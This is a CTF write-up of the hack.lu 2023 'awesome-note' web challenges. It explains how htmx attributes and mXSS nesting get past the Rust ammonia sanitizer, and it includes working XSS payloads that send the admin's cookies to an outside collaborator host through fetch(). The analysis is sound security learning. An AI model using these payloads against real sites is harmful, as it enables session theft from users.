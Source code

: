 ```yaml
---
title: 'hack.lu 2023 Writeup'
date: '2023-10-15'
tags: ['Writeup', 'Web']
draft: false
summary: 'This writeup contains an interesting mXSS challenge, named awesome-note-2,  from the hack.lu this year.'
---
```


This writeup contains an interesting mXSS challenge, named awesome-note-2, from the hack.lu this year.

## Web

### awesome-note-1

The server application is written in Rust. The HTML Sanitizer in Rust is called `ammonia`.

https://docs.rs/ammonia/latest/ammonia/struct.Builder.html

The sanitization rules applied on the backend were discerned as:

- only allow h1, p, div tag
- only allow attribute with "hx-" prefix

```
let safe = ammonia::Builder::new()
    .tags(hashset!["h1", "p", "div"])
    .add_generic_attribute_prefixes(&["hx-"])
    .clean(&body)
    .to_string();
```

On investigating the significance of the "hx-" prefix, it was discovered that the website's frontend leverages the `htmx` library. This library offers a seamless means for HTML elements to interact with JavaScript.

https://htmx.org/

Here is my payload:

```
<h1>Example note</h1>
<p>Don't forget about that exam next monday!</p>

<div hx-get="/api/note/" hx-on::before-request="fetch('https://cmp2b3c2vtc0000y7e8ggkmbfthyyyyyb.oast.fun/?cookie=' + encodeURIComponent(document.cookie));" hx-trigger="load delay:0.001s" hx-target="#content">  Get Some HTML</div>
```

The malicious note, when reported and consequently viewed by the admin, exposed the admin's session cookies to our endpoint, thereby compromising the session.

![awesome-notes-1-1](/static/images/hack-lu-2023-Writeup/awesome-notes-1-1.png)

![awesome-notes-1-flag](/static/images/hack-lu-2023-Writeup/awesome-notes-1-flag-7419992.png)

### awesome-notes-2

In this stage of the challenge, while the underlying mechanics were similar, the sanitizer rules posed a different puzzle.

**Understanding ammonia's Functionality**

The following content is my understand of how `ammonia` works. At its core, `ammonia` parses an HTML string and then cleans or sanitizes the parsed tree based on specified whitelist/blacklist rules:

- Whitelist tags: A set of default tags are whitelisted in ammonia. Additional tags can be included using `add_tags` or `tags`.
- Blacklist tags(clean-content tags): The contents of tags in this category will be completely removed from the output. Tags can be appended to this list with `add_clean_content_tags` or `clean_content_tags`.
- Notably, a tag can only belong to one of these lists.

In the following, the application allows a list of math related tags specified in `TAGs` and `style` tag. Then, it remove the `style` tag from the blacklist to avoid any panic.

```
let safe = ammonia::Builder::new()
    .add_tags(TAGS)
    .add_tags(&["style"])
    .rm_clean_content_tags(&["style"])
    /*
        Thank god we don't have any more XSS vulnerabilities now
    */
    // .add_generic_attribute_prefixes(&["hx-"])
    .clean(&body)
    .to_string();
```

**mXSS**

mXSS attacks revolve around the intricate dance between an XSS sanitizer and the browser's DOM parser. Discrepancies in their interpretation of HTML can be weaponized. The attacker crafts payloads that seem benign to the sanitizer but mutate into malicious scripts when interpreted by the browser.

Here is my payload:

```
<math><semantics><annotation-xml encoding="text/html"><style><img src=x onerror="fetch('https://cmp2b3c2vtc0000y7e8ggkmbfthyyyyyb.oast.fun/?cookie=' + encodeURIComponent(document.cookie));">
```

This cleverly constructed payload incorporates nested elements in an unorthodox manner:

1. The inclusion of a `<style>` element within `<annotation-xml>` defies standard conventions.
2. An `<img>` tag situated inside a `<style>` tag is another deviation from normative HTML practices.

Given this unconventional structure, `ammonia` sanitizes the payload by stripping attributes and methodically reconstructing the DOM tree (layer by layer). However, the DOM parser in the browser patch the problematic payload differently to make it render properly which ultimately leaving the `<img>` tag independent and hence executable.

![awesome-notes-2-mxss](/static/images/hack-lu-2023-Writeup/awesome-notes-2-mxss-7419992.png)

```
// Payload 1
// Attacker input
<math><semantics><annotation-xml encoding="text/html"><style><img src=x onerror="alert(1)">

// After sanitizer
<math><semantics><annotation-xml><style><img src=x onerror="alert(1)">
          </style></annotation-xml></semantics></math>

// After DOM parser patching (broswer)
<math><semantics><annotation-xml><style></style></annotation-xml></semantics></math><img src="x" onerror="alert(1)">
```

I also saw another working payload from other player's writeup:

```
// Payload 2
// Attacker input
<math><mtext><svg><style><a title="</style><img src onerror=alert(1)>">

// After sanitizer
<math><mtext><style><a title="</style><img src onerror=alert(1)>" rel="noopener noreferrer"></a></style></mtext></math>

// After DOM parser patching (broswer)
<math><mtext><style><a title="</style><img src="" onerror="alert(1)">" rel="noopener noreferrer"&gt;</mtext></math>
```

Here is how the browser treat the sanitized payload 2:

![awesome-notes-2-mxss](/static/images/hack-lu-2023-Writeup/awesome-notes-2-py2-7419992.png)

There are more mXSS payload from the DOMPurify repository unit test cases:

https://github.com/cure53/DOMPurify/blob/7e6a7ee8b710ee669dafa2231e98a50ee06d3cef/test/fixtures/expect.mjs#L892

Get the flag.

![awesome-notes-2-2](/static/images/hack-lu-2023-Writeup/awesome-notes-2-2.png)

```
flag{th1s_ch4ll3ng3_w4s_n3rd3d_f0r_y0ur_pl34sur3}
```
